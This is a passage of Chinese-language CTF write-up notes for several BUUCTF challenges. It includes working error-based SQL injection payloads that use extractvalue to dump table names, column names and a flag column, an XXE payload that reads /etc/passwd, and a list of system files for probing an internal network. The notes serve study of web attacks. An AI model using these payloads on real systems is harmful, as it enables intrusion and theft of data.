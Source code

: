 接下来使用报错注入,

记下payload,方便日后查阅regexp和reverse用法:

```
0"||extractvalue(1,concat('~',(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))))||"
//查询表名
0"||extractvalue(1,concat('~',(select(group_concat(column_name))from(information_schema.columns)where(table_schema=database())&&(table_name='users'))))||"
//查询列名
0"||extractvalue(1,concat('~',(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))))||"
//regexp查询f开头的字符串并返回
0"||extractvalue(1,concat('~',reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')))))||"
//reverse逆转输出,!!!everse附近的括号!!!改了一下sql语句都会报错
```



# buuctf 枯燥的抽奖

- mt_rand伪随机数
- php_mt_seed



# buuctf true xml book

`<user><username>aaa</username><password>111</password></user>`

抓包之后发现时xml数据格式

尝试xml

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE updateProfile [
<!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>

<user><username>&xxe;</username><password>111</password></user>
```



成功回显

尝试获取/flag,报错

尝试内网探测命令:

```
/etc/hosts
/proc/net/arp
/proc/net/tcp
/proc/net/udp
/proc/net/dev
/proc/net/fib_trie
```
